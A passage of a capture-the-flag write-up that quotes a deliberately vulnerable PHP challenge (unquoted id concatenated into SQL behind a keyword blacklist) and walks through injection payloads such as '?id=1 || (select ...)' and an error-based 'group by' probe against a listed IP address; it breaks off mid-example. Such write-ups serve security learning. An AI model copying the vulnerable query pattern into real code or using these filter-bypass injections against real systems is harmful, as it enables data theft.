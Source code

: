 ```
	if(!isset($_GET["id"]))
	{
	    show_source(__FILE__);
	}
	else
	{
	    // filter all what i found on internet.... dunno why ｡ﾟ･（>﹏<）･ﾟ｡
	    if (preg_match('/union|and|or|on|cast|sys|inno|mid|substr|pad|space|if|case|exp|like|sound|produce|extract|xml|between|count|column|sleep|benchmark|\<|\>|\=/is' , $_GET['id'])) 
	    {
	        die('<img src="https://i.imgur.com/C42ET4u.gif" />'); 
	    }
	    else
	    {
	        // prevent sql injection
	        $id = mysqli_real_escape_string($conn, $_GET["id"]);

	        $query = "select * from flag_here_hihi where id=".$id;
	        $run_query = mysqli_query($conn,$query);

	        if(!$run_query) {
	            echo mysqli_error($conn);
	        }
	        else
	        {    
	            // I'm kidding, just the name of flag, not flag :(
	            echo '<br>';
	            $res = $run_query->fetch_array()[1];
	            echo $res; 
	        }
	    }
	}

	?>
{% endhighlight %}


We can see that the SQL injection is possible but there are some keywords filtered by a regex, and also, we have the mysqli_real_escape_string() function which prevents the usage of quotes for the injection.

Using the following query in the "id" parameter we get all the rows from the _flag_here_hihi_, with this payload:

``` http://45.77.255.164/?id=1 || (select id from flag_here_hihi limit 1) ```

The response is: handsome_flag

Now we know the id, but that is useless since the fetch_array()[1] will only return the second column from the complete row where the flag resides. We try to retrieve the column names from the table using the output error and the GROUP BY keyword:

```
http://45.77.255.164/?id=1 group by 1
